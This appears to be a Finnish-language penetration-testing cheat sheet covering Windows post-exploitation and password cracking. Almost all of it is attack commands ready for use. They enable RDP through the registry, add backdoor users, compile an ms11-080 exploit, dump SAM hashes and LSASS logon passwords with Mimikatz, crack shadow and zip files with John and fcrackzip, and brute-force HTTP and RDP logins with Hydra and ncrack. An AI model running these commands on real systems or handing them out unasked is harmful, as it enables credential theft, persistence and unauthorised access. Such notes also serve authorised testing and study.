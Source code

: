 ```
 * reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

### Käyttäjän lisääminen
 * Windowsiin voi tehdä käyttäjän komennolla: net user <käyttäjänimi> <salasana> /add
 * Lisääminen grouppiin: net localgroup "Groupin nimi" <käyttäjänimi> /add
 
### Serviceiden listaus 
 * services.msc

### Python-filusta exe: 
 * python pyinstaller.py --onefile ms11-080.py

### Mimikatz
  * load mimikatz
  * mimikatz_command -f privilege::debug
  * mimikatz_command -f samdump::hashes
    - msv
    - kerberos
    - NTLM 
    - ssp

### Sekurlsa
  * mimikatz_command -f inject::process lsass.exe sekurlsa.dll
  * mimikatz_command -f sekurlsa::logonpasswords
  * mimikatz_command -f sekurlsa::searchPasswords

### Lisätietoja:
  * https://blogs.technet.microsoft.com/markrussinovich/2006/05/01/the-power-in-power-users/
  * http://www.greyhathacker.net/?p=738


# Salasanojen cräckäys

## Sanalistat
 * SecList: /usr/share/seclists/

## Salasanojen crakays
 * unshadow passwd shadow > unshadowed.txt
 * john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt

## Hydralla cräckäys:
 * https://github.com/frizb/Hydra-Cheatsheet
 * hydra -l admin -P /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt <IP> http-get /path

## RDP cräckäys:
 * ncrack -vv --user admin -P /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt rdp://<IP>

## FreeBSD:
 * Salasanat filussa /etc/master.passwd

## Zipin crackays:
 * fcrackzip -D -p /usr/share/wordlists/rockyou.txt crackattava.zip

